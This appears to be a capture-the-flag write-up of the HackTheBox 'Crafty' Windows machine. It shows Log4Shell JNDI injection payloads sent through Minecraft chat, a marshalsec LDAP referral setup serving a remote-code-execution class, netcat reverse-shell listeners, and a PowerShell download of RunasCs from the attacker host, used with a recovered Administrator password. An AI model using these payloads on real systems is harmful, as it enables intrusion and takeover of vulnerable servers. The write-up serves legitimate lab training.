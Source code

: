 ```yaml
---
layout: post
title: Crafty
description: Crafty is an easy-difficulty Windows machine featuring the exploitation of a `Minecraft` server.
categories: [writeups]
tags: [HTB, CVE-2021-44228, Cryptographic Failure]
image:
  path: /assets/crafty/Crafty.png
---
```


## **Summary**

The exploit of Log4shell(CVE-2021-44228) in minecraft gave initial access to the machine, then the administrator's password was retreived by decompiing a plugin used by the minecraft server.

## **Enumeration**

### **nmap**

We started off with a port scan, it shows tow open ports, 80 which is the default for http and 25565 which is commonly used to host mincraft servers.

```
$ nmap 10.10.11.249 -sV -p 80,25565
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-09 10:23 +01
...
80/tcp    open  http      Microsoft IIS httpd 10.0
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)
```

### **http - port 80**

Browsing to the web app gave us a subdomain: `play.crafty.htb`.

![](/assets/crafty/05.png)

### **mincraft - port 25565**

We used [tlauncher](https://tlauncher.org/en/) to connect to the mincraft server.

We downloaded the zip archive for linux, then extracted it and finally ran it

```
java -jar TLauncher.jar
```

Once started, we chose version `1.16.5` as we have seen in the `nmap` scan, then we hit `Enter the game`.

![](/assets/crafty/00.png)

We chose `Multiplayer` from the newly opened window.

![](/assets/crafty/01.png)

Clicked on `Direct Connection`.

![](/assets/crafty/02.png)

Then entered `play.crafty.htb` in `Server Address`.

![](/assets/crafty/03.png)

This version Minecraft is vulnerable to [Log4Shell (CVE-2021-44228)](https://en.wikipedia.org/wiki/Log4Shell), which is a critical security vulnerability in the Apache Log4j library that allows attackers to execute arbitrary code on affected systems.

To test for it, we set a listener on port 389, to mimic an ldap server.

```
$ nc -lnvp 389
```

On the chat `(press T)`, we entered `${jndi:ldap://10.10.14.106/a}`, and we noticed a connection in our listener.

![](/assets/crafty/04.png)

## Initial access

To exploit this vulnerability, we had to install `jdk-8`, it can be downloaded from [Oracle](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) or from [Openlogic](https://www.openlogic.com/openjdk-downloads)

We then setup `marshalsec`

> Marshalsec is an open-source tool used for testing vulnerabilities in Java serialization and deserialization processes, particularly related to JNDI lookups. It allows users to set up servers that can redirect requests to execute arbitrary code.

```
$ git clone https://github.com/mbechler/marshalsec
$ cd marshalsec
$ mvn clean package -DskipTests
```
And create a java class that will give remote code execution.

```
$ mkdir server
$ cd server
$ wget https://raw.githubusercontent.com/xiajun325/apache-log4j-rce-poc/master/src/main/java/Log4jRCE.java
```

We modified `cmd` variable in `Log4jRCE.java` with the command that will give us a reverse shell, this was a powershell command generated using [revshells](https://www.revshells.com/).

After that we compiled the java class.

```
$ javac Log4jRCE.java
```

Next, we had to setup two servers, the first is an http server to serve the java class we compiled, and the second is an LDAP referal server. 

For the http server we used a python.

```
$ python -m http.server
```

And for LDAP we used Marshalsec.

```
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.14.65:8000/#Log4jRCE"
```

We started a listener

```
$ nc -lnvp 9000
```

Then injected the following line into mincraft chat.

```
${jndi:ldap://10.10.14.65:1389/Log4jRCE}
```

Once executed we were able to receive a connection in our reverse shell.

## Privilege escalation

Mincraft was using `playercounter` plugin, located at `C:\users\svc_minecraft\server\plugins\`.

We used `certutil` to extract it to our machine for analysis.

First, we encoded it using base64:

```
PS > certutil -encode playercounter-1.0-SNAPSHOT.jar ../../hrh.b64
```

Then copied it to our machine, and reconstructed the `jar` file.

```
$ cat a.b64 | base64 -d > playercounter.jar
```

Lastly, we decompiled the `.jar` file using [jd-gui](https://java-decompiler.github.io/).

```
$ jd-gui playercounter.jar
```

We found what seems like a password `s67u84zKq8IXw`, we thought it could be for the `Administrator` account.

![](/assets/crafty/06.png)

We dowloaded `RunasCs` and extracted it into the directory where we started the python server.

> RunasCs is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.

```
$ https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip
$ unzip RunasCs.zip
```

Uploaded it to the target machine.

```
PS C:\users\svc_minecraft> powershell.exe iwr http://10.10.14.65:8000/RunasCs.exe -O hrh_runascs.exe
```

Using the password we found and the username `Administrator`, we were able to escalate our privileges.

```
PS C:\users\svc_minecraft> ./hrh_runascs.exe Administrator s67u84zKq8IXw whoami

crafty\administrator
```
